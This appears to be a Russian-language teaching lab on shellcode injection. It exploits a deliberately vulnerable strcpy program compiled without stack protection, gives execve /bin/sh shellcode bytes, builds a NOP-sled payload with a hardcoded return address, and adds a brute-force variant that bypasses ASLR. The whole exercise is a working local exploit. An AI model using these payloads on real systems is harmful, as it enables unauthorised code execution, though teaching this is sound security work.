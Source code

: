 ifdef::env-github[]
:tip-caption: :bulb:
:note-caption: :memo:
:important-caption: :heavy_exclamation_mark:
:caution-caption: :fire:
:warning-caption: :warning:
endif::[]

= Shellcode injection
:source-highlighter: rouge
:rouge-style: github
:icons: font
:sectnums:

== Рассмотрим `vuln.c`

[source, c]
----
#include <stdio.h>
#include <string.h>

void func(char *name) {
        char buf[100];
        strcpy(buf, name);
        printf("Welcome %s\n", buf);
}

int main(int argc, char **argv) {
        func(argv[1]);
        return 0;
}
----

В этом коде есть уязвимость: функция `strcpy` не указывает максимальную длину при копировании.
Это может привести к записи данных за пределы `buf`, причём может быть перезаписан адрес возврата.

== Скомпилируем код

[source, shell]
----
gcc vuln.c -o vuln -fno-stack-protector -m32 -z execstack
----

Флаги:
- `-fno-stack-protector` -- отключить проверки переполнений буфера на стеке (скорее всего по умолчанию компилятор проверок не вставляет, но может быть нужным для нестандартно собранного компилятора);
- `-m32` -- собрать 32-х битного окружения (делается для удобства, но может потребовать установки дополнительных пакетов, в целом можно обойтись без него, но получим длинные адреса);
- `-z execstack` -- просим линкер собрать исполняемый файл требующий исполняемый стек.

== Отключаем https://en.wikipedia.org/wiki/Address_space_layout_randomization[ASLR]

[source, shell]
----
echo "0" | sudo dd of=/proc/sys/kernel/randomize_va_space
----

== Посмотрим на ассемблерный код vuln

[source, shell]
----
objdump -d -M intel vuln
----

Нас интересует строка `11b5:	8d 45 94	lea eax,[ebp-0x6c]`.
`0x6c` это `108`, т.е `buf` начинается за `108` байтов от `ebp`.
Ещё `4` байта отводится под хранение регистра `ebx` (строка `11a0:	53	push ebx`).
Ещё `4` байта отводится под хранение регистра `ebp` -- указатель предыдущего кадра стека (строка `119d:	55	push ebp`).
Следующие `4` байта хранят адрес возврата.

== Рассмотрим `shellcode.nasm`

[source, nasm]
----
xor     eax, eax    ;Clearing eax register
push    eax         ;Pushing NULL bytes
push    0x68732f2f  ;Pushing //sh
push    0x6e69622f  ;Pushing /bin
mov     ebx, esp    ;ebx now has address of /bin//sh
push    eax         ;Pushing NULL byte
mov     edx, esp    ;edx now has address of NULL byte
push    ebx         ;Pushing address of /bin//sh
mov     ecx, esp    ;ecx now has address of address
                    ;of /bin//sh byte
mov     al, 11      ;syscall number of execve is 11
int     0x80        ;Make the system call
----

Данный ассемблерный код совершает системный вызов `execve`, запуская `/bin/sh`.

== Скомпилируем код инъекции

[source, shell]
----
nasm -f elf shellcode.asm
----

== Посмотрим на байты инъекции

[source, shell]
----
objdump -d -M intel shellcode.o
----

Отсюда получаем последовательность байтов, содержащую инъекцию:
`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`.

== Куда делать инъекцию?

Хотим сделать инъекцию через переполнение `buf`.
Для этого будем передавать длинную строку в первый аргумент `vuln`.
Воспользуемся отладчиком `gdb`, чтобы определить, по какому адресу будет лежать `buf`.
Т.к ASLR выключен, то адрес не будет меняться от запуска к запуску.

== Запустим программу в отладчике

[listing]
----
gdb -q vuln
(gdb) b func
(gdb) r $(python -c 'print("A"*116)')
(gdb) p $ebp - 0x6c
----

[IMPORTANT]
====
В отладчике мы запускали программу, передав ей один аргумент длины 116 байтов.
Так как аргументы программы попадают в конец адресного пространства, то для получения корректного адреса нужно,
чтобы аргументы занимали столько же места, сколько займёт код инъекции.

Попробуйте запустить программу с другим по длине аргументом и получите другой адрес.

[listing]
----
(gdb) r A
(gdb) p $ebp - 0x6c
----
====

В моём случае адрес возврата получился `0xffffce4c`.

[NOTE]
====
В вашем случае адрес возврата может отличаться, поэтому в дальнейших шагах используйте его.
====

== Сформируем аргумент для `vuln`, который позволит запустить `sh`

Сначала будут лежать байты кода, на который хотим выполнить возврат из функции `func`, а в конце -- адрес этого кода.
Аргумент составим следующим образом: сначала идут 87 байтов -- инструкция `NOP`,
далее `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80` -- сама наша программа,
далее `\x4c\xce\xff\xff` -- адрес возврата.

Напишем и скомпилируем программу `injection_input.c`, которая будет печатать эти байты.

[source, c]
----
#include <stdio.h>

int main() {
        for (int i = 0; i < 87; ++i) {
                printf("\x90");
        }
        printf("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80");
        printf("\x4c\xce\xff\xff");
        return 0;
}
----

Скомпилируем её.

[source, shell]
----
gcc injection_input.c
----

== Запустим `vuln` передав ей сформированный вход

[source, shell]
----
./vuln $(./a.out)
----

И видим, что запустился `sh`.

[listing]
----
Welcome 1Ph//shh/binPS
                      L
sh-5.1$
----

== Включим ASLR обратно

[source, shell]
----
echo "2" | sudo dd of=/proc/sys/kernel/randomize_va_space
----

== Теперь попробуем произвести инъекцию с включённым ASLR

Напишем и скомпилируем  программу `injection_code_aslr.c`, формирующую инъекцию.

[source, c]
----
#include <stdio.h>

int main() {
        for (int i = 0; i < 100000; ++i) {
                printf("\x90");
        }
        printf("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80");
        return 0;
}
----

[NOTE]
====
Заметим, что теперь инструкций `NOP` не `87`, а `100000`.
====

[source, c]
----
gcc injection_code_aslr.c
----

Запишем код нашей программы в переменную окружения `SHELLCODE`.

[source, shell]
----
export SHELLCODE=$(./a.out)
----

Напишем и скомпилируем программу `injection_input_aslr.c` формирующую вход для `vuln`.

[source, c]
----
#include <stdio.h>

int main() {
        for (int i = 0; i < 112; ++i) {
                printf("A");
        }
        printf("\x11\x11\xff\xff");
        return 0;
}
----

[source, c]
----
gcc injection_input_aslr.c
----

== Запустим `vuln` передав ей сформированный вход

[source, shell]
----
./vuln $(./a.out)
----

Повторяйте, пока не запустится `sh`.

== Ссылки для самостоятельного изучения

* https://dhavalkapil.com/blogs/Shellcode-Injection/[Оригинальная статья], по которой подготавливалось занятие.
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/[Статья про атаку буфера]. Она попроще, но там разбираются многие вещи, которые разбирали на занятии.
* https://habr.com/ru/companies/pt/articles/349544/[Классная статья про обход ASLR].
